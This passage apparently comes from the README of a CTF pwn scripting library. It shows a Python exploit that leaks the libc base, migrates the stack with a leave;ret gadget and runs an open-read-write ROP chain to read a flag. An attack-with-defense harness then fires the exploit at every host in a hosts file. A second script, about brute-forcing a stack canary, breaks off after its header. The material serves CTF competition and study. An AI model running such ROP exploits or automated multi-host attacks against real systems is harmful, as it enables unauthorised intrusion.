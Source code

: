 ```python

    libc_base = r7f() - libc.sym['puts']
    set_libc_base_and_log(libc_base)

    rop_attack.update_padding(padding=padding-8)
    
    stack_migration_addr = 0x404048
    leave_ret_addr = rop_attack.search_gadgets('leave;ret')
    
    ru(b'this task.\n')
    rop_attack.read(rbp_value=stack_migration_addr,
                    target_addr=stack_migration_addr,
                    return_func_addr=leave_ret_addr,
                    is_send=True)

    rop_attack.update_padding(padding=0)

    flag_name_str_addr = 0x404038
    flag_addr = 0x404048

    flag = rop_attack.orw_cat_flag(
        flag_name_str_addr=flag_name_str_addr,
        flag_addr=flag_addr,
        flag_prefix=b'XAUTCTF'
        )

    return flag

if __name__ == '__main__':
    # exp()
    awd = Awd(
        hosts_file="./datas/hosts.txt",
        # static_ip="127.0.0.1",
        # ports_file="./datas/ports.txt",
        flags_path="./flags/",
        flags_file_name_sign="1",
        binary="./vuln",
        remote_libc="./libc.so.6",
        exploit=exp)
    
    awd.attack(print_flag=True, send_flag=False, save_flag=True)

```



### 爆破canary

栈溢出之后，进程不会退出的，如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Author: ckyan
Generation date: 2024-06-24 13:48:16
"""

"""
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
```